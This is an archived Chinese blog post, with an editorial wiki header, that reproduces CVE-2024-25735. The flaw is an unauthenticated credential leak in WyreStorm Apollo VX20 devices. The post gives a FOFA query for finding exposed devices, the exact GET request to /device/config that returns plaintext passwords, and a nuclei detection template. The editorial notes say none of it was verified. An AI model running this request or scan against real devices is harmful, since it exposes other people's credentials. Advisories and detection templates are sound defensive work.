




# CVE-2024-25735漏洞复现（附POC）

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<1.3.58设备配置接口可达、无需认证；是否返回真实凭据需查看响应字段
- 证据范围：请求与模板匹配password/softAp可指示泄露，但不能仅字符串判断密码非掩码/有效；截图未视检

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- PoC不是产品名，应移入WyreStorm设备目录
- verified:true是模板作者声明不是本次验证
- 标签aiohttp与设备主体无解释关联
- 修复只说最新，应记录1.3.58边界来源

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 fgz  AI与网安   2024-03-06 07:01  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
WyreStorm Apollo VX20 信息泄露漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
WyreStorm Apollo VX20 < 1.3.58  
  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
WyreStorm Apollo VX20是一款优质的音视频会议一体机，专为企业办公室和会议室空间设计。这款设备集成了摄像头、麦克风、扬声器及投屏功能，为企业办公和视频会议提供优质的视听体验。该系统存在信息泄露漏洞，未经授权的远程攻击者可以获取明文凭据。  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="-893957814"
```  
  
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
该漏洞是get请求，可以直接使用浏览器访问  
  
  
  
完整POC数据包如下  
```http
GET /device/config HTTP/1.1
Host: 192.168.40.130:115
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```  
  
  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-25735

info:
  name: WyreStorm Apollo VX20 信息泄露漏洞
  author: fgz
  severity: high
  description: |
    WyreStorm Apollo VX20是一款优质的音视频会议一体机，专为企业办公室和会议室空间设计。这款设备集成了摄像头、麦克风、扬声器及投屏功能，为企业办公和视频会议提供优质的视听体验。该系统存在信息泄露漏洞，未经授权的远程攻击者可以获取明文凭据。
  metadata:
    verified: true
    max-request: 1
    vendor: WyreStorm
    product: WyreStorm Apollo VX20
    fofa-query: icon_hash="-893957814"
  tags: cve,cve2024,aiohttp

http:
  - method: GET
    path:
      - "{{BaseURL}}/device/config"

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body,'password') && contains(body,'softAp')"

```  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
